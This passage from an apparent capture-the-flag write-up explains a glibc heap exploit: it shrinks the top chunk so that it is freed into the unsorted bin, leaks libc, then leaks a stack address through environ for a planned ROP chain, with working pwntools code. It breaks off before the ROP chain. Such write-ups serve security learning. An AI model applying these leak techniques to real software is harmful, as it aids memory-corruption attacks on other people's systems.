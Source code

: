 Now, we can read/write whatever we want to the heap.

But what can we do with it? 

We don't really have a free primitive, and we can only allocate chunks with the scanf.

Let's not forget the top_chunk!

the top chunk will contain all of the unused heap data, and its size field will indicate how many bytes are left in the heap.

When the heap allocator tries to allocate a chunk bigger than the top chunk, it will free the top chunk, and allocate more space to the heap.

With our primitive, we can decrease the size of the top chunk to be really small, allocate a big chunk with our scanf (we can do something like `clap("1" * 0x700, "1" * 0x900)`), and this will free the topchunk into the unsorted bin, and give us a libc leak!

```py
    clap(heap_offset+ 0xab8+2, 0x200) #write nullbyte to third byte, 0x200 probably contain nullbyte since its in the bss

    clap("1" * 0x700, "1" * 0x900) #free top chunk
    unsorted_bin_offset = 0xac0
    slap_length(0, heap_offset + unsorted_bin_offset, 8)
    p.recvline()
    leak = p.recvline()[12:-6]

    libc.address = u64(leak.ljust(8, b'\x00')) - 0x21ace0
    log.info(f'LIBC @ {hex(libc.address)}')
```

Here I overwrote the third byte of the top chunk with a nullbyte, which made the top chunk size be something like 0x701.

Then I allocated a big chunk with the scanf, and it freed the top chunk, and we can easily read it.

Now, after we have a libc leak, we can easily get a stack leak, to do ROP, via the `environ` symbol inside libc:

```py
    offset_to_environ = libc.sym.environ - exe.sym.data

    slap_length(0, offset_to_environ, 8)
    p.recvline()
    
    leak = p.recvline()[12:-6]

    stack_leak = u64(leak.ljust(8, b'\x00')) 

    ret_address = stack_leak - 0x120

    log.info(f'STACK @ {hex(stack_leak)}')

```

Since we don't really have a fully arbitrary write primitive (we can just swap stuff), we are really limited with our rop chain, and it will be hard to write a lot of bytes.
